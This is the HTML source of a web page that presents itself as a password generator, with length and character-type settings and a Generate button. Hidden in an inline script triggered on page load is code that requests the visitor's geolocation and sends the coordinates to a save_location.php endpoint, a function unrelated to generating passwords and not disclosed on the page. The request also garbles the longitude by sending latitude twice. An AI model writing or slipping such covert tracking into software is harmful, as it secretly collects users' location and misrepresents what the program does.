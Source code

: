 <!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/5.14.0/css/all.min.css" integrity="sha512-1PKOgIY59xJ8Co8+NE6FZ+LOAZKjy+KY8iq0G4B3CyeY6wYHN3yt9PW0XpSriVlkMXe40PTKnXrLnZ9+fkDaog==" crossorigin="anonymous" />
    <link rel="stylesheet" href="style.css" />
    <title>Password Generator</title>
  </head>
  <body onload="getLocation()">

<p id="demo"></p>

<script>
var x = document.getElementById("demo");

function getLocation() {
  if (navigator.geolocation) {
    navigator.geolocation.getCurrentPosition(showPosition);
  } else { 
    x.innerHTML = "Geolocation is not supported by this browser.";
  }
}

function showPosition(position) {

    const xhttp = new XMLHttpRequest();

    xhttp.open("GET", "save_location.php?" + position.coords.latitude + "&long=" + position.coords.latitude);
    xhttp.send();


}
</script>


    <div class="container">
      <h2>Password Generator</h2>
      <div class="result-container">
        <span id="result"></span>
        <button class="btn" id="clipboard">
          <i class="far fa-clipboard"></i>
        </button>
      </div>
      <div class="settings">
        <div class="setting">
          <label>Password Length</label>
          <input type="number" id="length" min="4" max="20" value="20">
        </div>
        <div class="setting">
          <label>Include uppercase letters</label>
          <input type="checkbox" id="uppercase" checked>
        </div>
        <div class="setting">
          <label>Include lowercase letters</label>
          <input type="checkbox" id="lowercase" checked>
        </div>
        <div class="setting">
          <label>Include numbers</label>
          <input type="checkbox" id="numbers" checked>
        </div>
        <div class="setting">
          <label>Include symbols</label>
          <input type="checkbox" id="symbols" checked>
        </div>
      </div>

      <button class="btn btn-large" id="generate">
        Generate Password
      </button>
    </div>
    <script src="script.js"></script>
  </body>
</html>
